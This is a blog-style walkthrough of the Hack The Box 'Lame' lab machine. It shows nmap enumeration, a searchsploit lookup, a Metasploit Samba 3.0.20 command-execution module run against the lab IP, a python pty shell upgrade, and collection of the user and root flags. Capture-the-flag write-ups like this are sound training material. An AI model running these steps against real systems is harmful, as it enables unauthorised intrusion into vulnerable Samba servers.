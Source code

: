 ```yaml
---
title:  "Hack The Box: Lame - Walkthrough"
date:   2020-01-09 19:30:55
---
```


It's been a while since i've last actively posted something on my blog. I've been really busy with uni and real life stuff but i managed to get some more free time on my hands. Lame was one of the more easier boxes that i've done if i say so myself. Here is my write up :)

![](/assets/3/1.png)

<h2>Enumeration</h2>
Let's start off with our nmap scan.

```
mkdir scans
nmap -sV -sC -oA scans/nmapinitial 10.10.10.3
```

-sC for default scripts, 
-sV for version enumeration, 
-oA for output all formats.

![](/assets/3/2.png)

Couple of interesting results:

- FTP allows anonymous login but when loggin in there wasn't any useful information.
- OpenSSH version is not vulnerable.
- Samba is our injection point.

I ran a searchsploit on the samba version.

```
searchsploit samba 3.0.20
```

![](/assets/3/3.png)

Great an exploit that leads to command execution, lets power up metasploit!

<h2>Exploitation</h2>

```
msfconsole
```

![](/assets/3/4.png)

Lets search for the exploit we just found.

```
search samba 3.0.20
```

![](/assets/3/5.png)

Bunch of results, but the one we found when running searchsploit has ID 14.

```
use 14
```

Let's see what we need to set in the exploit before running it.

```
show options
```

![](/assets/3/6.png)

Looks like we only have to set the rhost, let's go ahead and do that.

```
set rhost 10.10.10.3
```

![](/assets/3/7.png)

Then run it.

```
run
```

![](/assets/3/8.png)

Great, we got in! Quickly checked what the current user was and spawned a TTY shell with:

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

<h2>Getting user.txt</h2>
Let's continue and find the user and root flag. When going through the user folders i found the user.txt file in /home/makis.

![](/assets/3/9.png)

h2>Getting root.txt</h2>
Let's go to the root directory now for root.txt file.

![](/assets/3/10.png)

And there we have it, box done :)

Thanks for reading and happy hacking!

